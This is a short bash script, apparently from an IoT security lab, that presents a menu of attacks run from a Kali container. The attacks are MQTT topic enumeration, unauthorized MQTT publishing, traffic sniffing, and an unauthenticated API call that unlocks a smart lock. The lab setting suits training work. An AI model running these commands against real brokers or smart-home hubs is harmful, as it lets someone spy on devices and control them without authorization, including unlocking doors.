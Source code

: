 ```bash
cat > iot-attacks.sh << 'EOF'
#!/bin/bash
# IoT Attack Script

echo "========================================"
echo "        IoT Environment Attacks         "
echo "========================================"
echo "1. MQTT Topic Enumeration"
echo "2. MQTT Unauthorized Publishing"
echo "3. Sniff IoT Communication"
echo "4. Smart Hub API Attack"
echo "5. Return to main menu"
echo "========================================"
read -p "Select an option: " choice

case $choice in
    1)
        echo "[+] Enumerating MQTT topics..."
        docker exec -it kali-iot mosquitto_sub -h mosquitto -t "#" -v
        ;;
    2)
        echo "[+] Injecting unauthorized MQTT messages..."
        read -p "Device ID to target (e.g., light001): " device_id
        docker exec -it kali-iot mosquitto_pub -h mosquitto -t "iot/cmd/$device_id" -m '{"state":"on"}'
        echo "[+] Command injected. Check device status."
        ;;
    3)
        echo "[+] Sniffing IoT traffic with tcpdump..."
        docker exec -it kali-iot apt-get update
        docker exec -it kali-iot apt-get install -y tcpdump
        docker exec -it kali-iot tcpdump -i eth0 port 1883 -vv
        ;;
    4)
        echo "[+] Attacking Smart Hub API..."
        docker exec -it kali-iot apt-get install -y curl
        docker exec -it kali-iot curl -X POST -H "Content-Type: application/json" -d '{"device_id":"lock001","command":{"state":"unlocked"}}' http://smarthome-hub:5000/api/device/control
        echo "[+] API request sent. Check device status."
        ;;
    5)
        echo "Returning to main menu..."
        ;;
    *)
        echo "Invalid option"
        ;;
esac
EOF

chmod +x iot-attacks.sh
```
